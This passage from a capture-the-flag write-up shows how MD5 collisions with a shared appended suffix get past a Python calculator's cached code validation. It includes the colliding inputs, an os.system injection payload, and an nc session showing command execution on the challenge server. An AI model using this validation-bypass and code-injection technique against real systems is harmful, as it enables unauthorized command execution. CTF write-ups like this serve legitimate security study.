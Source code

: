 ```python

h1 = md5(m1).hexdigest()
h2 = md5(m2).hexdigest()
print(f"{h1=}, {h2=}")

suffix = b"abcd"
h1 = md5(m1 + suffix).hexdigest()
h2 = md5(m2 + suffix).hexdigest()
print(f"{h1=}, {h2=}")
```
```
h1='2ab22d067660e4395b0cfe5bd5739212', h2='2ab22d067660e4395b0cfe5bd5739212'
h1='c0537b259c408325fe730a58007eddad', h2='c0537b259c408325fe730a58007eddad'
```

Wow, that statement regarding suffixes seems to hold for 128 byte collisions. Maybe a cryptographer can clarify what the statement should be as I am a bit confused. However, 128 byte collisions is all I can currently generate so I proceeded with this knowledge.

At 3 am, I finally figured out what do do with this knowledge.

![genius idea](https://hackmd.io/_uploads/H1Uy2iILR.png)

If I generate a collision (`a`, `b`) where `a` is `"<random>"#<random>` and `b` is `"<random>"'<random>`, I can append the common suffix `'; <arbitrary python code>`. For `a`, the suffix is commented out which passes the validation. For `b`, the random data is closed out with the string and my python code will execute.

Using PBRgrid, I generated the following collision:

```
"Q(3@U2WxwNlRepk.9-0"#o}N\WN(N_A;9f/ i!-{:&7?;^B_$|-qp$xv@*Jw&@*khF|N`nIBt`Qh+_zkK0r(46cROJjd(J3D:zgxm@iD(U\ eCA(G>c     ,  wMYW
```
and
```
"Q(3@U2WxwNlRepk.9-0"'o}N\WN(N_A;9f/ i!-{:&7?;^B_$|-qp$xv@*Jw&@*khF|N`nIBt`Qh+_zkK0r(46cROJjd(J3D:zgxm@iD(U\ eCA(G>c     ,  wMYW
```

## Flag

Using the suffix `'; __import__("os").system("ls /")`, I found a `/readflag` executable.

```
$: nc pycalc.2024.ctfcompetition.com 1337
== proof-of-work: disabled ==
Simple calculator in Python, type 'exit' to exit
> "Q(3@U2WxwNlRepk.9-0"#o}N\WN(N_A;9f/ i!-{:&7?;^B_$|-qp$xv@*Jw&@*khF|N`nIBt`Qh+_zkK0r(46cROJjd(J3D:zgxm@iD(U\ eCA(G>c     ,  wMYW'; __import__("os").system("ls /")
"Q(3@U2WxwNlRepk.9-0"#o}N\WN(N_A;9f/ i!-{:&7?;^B_$|-qp$xv@*Jw&@*khF|N`nIBt`Qh+_zkK0r(46cROJjd(J3D:zgxm@iD(U\ eCA(G>c     ,  wMYW'; __import__("os").system("ls /")
Caching code validation result with key 8cfee06ea80b6272183e67ecf73f5825
Waiting up to 10s for completion
'Q(3@U2WxwNlRepk.9-0'
> "Q(3@U2WxwNlRepk.9-0"'o}N\WN(N_A;9f/ i!-{:&7?;^B_$|-qp$xv@*Jw&@*khF|N`nIBt`Qh+_zkK0r(46cROJjd(J3D:zgxm@iD(U\ eCA(G>c     ,  wMYW'; __import__("os").system("ls /")
"Q(3@U2WxwNlRepk.9-0"'o}N\WN(N_A;9f/ i!-{:&7?;^B_$|-qp$xv@*Jw&@*khF|N`nIBt`Qh+_zkK0r(46cROJjd(J3D:zgxm@iD(U\ eCA(G>c     ,  wMYW'; __import__("os").system("ls /")
Hit code validation result cache with key 8cfee06ea80b6272183e67ecf73f5825
Waiting up to 10s for completion
'Q(3@U2WxwNlRepk.9-0o}N\\WN(N_A;9f/ i!-{:&7?;^B_$|-qp$xv@*Jw&@*khF|N`nIBt`Qh+_zkK0r(46cROJjd(J3D:zgxm@iD(U\\ eCA(G>c     ,  wMYW'
bin   dev  home  lib64  mnt  proc      root  sbin  sys  usr
boot  etc  lib   media  opt  readflag  run   srv   tmp  var
0
```